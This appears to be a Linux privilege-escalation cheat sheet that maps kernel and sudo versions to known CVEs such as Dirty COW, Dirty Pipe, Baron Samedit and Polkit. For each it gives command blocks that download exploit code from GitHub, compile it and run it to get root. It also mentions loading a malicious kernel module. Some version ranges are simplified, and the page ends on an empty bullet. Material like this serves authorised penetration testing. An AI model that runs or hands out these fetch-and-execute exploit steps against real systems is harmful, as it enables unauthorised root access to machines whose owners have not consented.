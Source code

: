 **Check Kernel Version for Known CVEs**
```bash
uname -r
	```
Example vulnerable ranges:

- **Dirty COW** (CVE-2016-5195): Linux ≤ 4.8
- **Dirty Pipe** (CVE-2022-0847): Linux 5.8+ < 5.10.102 / < 5.15.25 / < 5.17.9
- **Other kernel 0-days**: search on [Exploit-DB](https://www.exploit-db.com/), [CVE Details](https://www.cvedetails.com/), or use `searchsploit`.
**Dirty Cow**
```bash
wget https://raw.githubusercontent.com/dirtycow/dirtycow/master/dirtyc0w.c
gcc dirtyc0w.c -o dirtycow
./dirtycow
```
**Dirty Pipe**
```bash
git clone https://github.com/ashishb/dirtypipe.git
cd dirtypipe
gcc dirtypipe.c -o dirtypipe
./dirtypipe
```
**CVE-2022-27666 (Netfilter Privilege Escalation)**
```bash
git clone https://github.com/niklasb/CVE-2022-27666.git
cd CVE-2022-27666
make
./cve-2022-27666
```
**CVE-2021-3156 (Sudo “Baron Samedit”)**
(≤ 1.8.31p2) is vulnerable
```bash
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
gcc cve-2021-3156.c -o exploit
./exploit
```
**CVE-2021-3560 (Polkit)**
```bash
git clone https://github.com/berdav/CVE-2021-3560.git
cd CVE-2021-3560
gcc cve-2021-3560.c -o exploit
./exploit
```
**Check and load kernel Modules**
```bash
lsmod                # list loaded modules
sudo modprobe tun    # check if tun module can be loaded
```
- If you have `CAP_SYS_MODULE`, you can compile and load a malicious kernel module to gain root.
- 
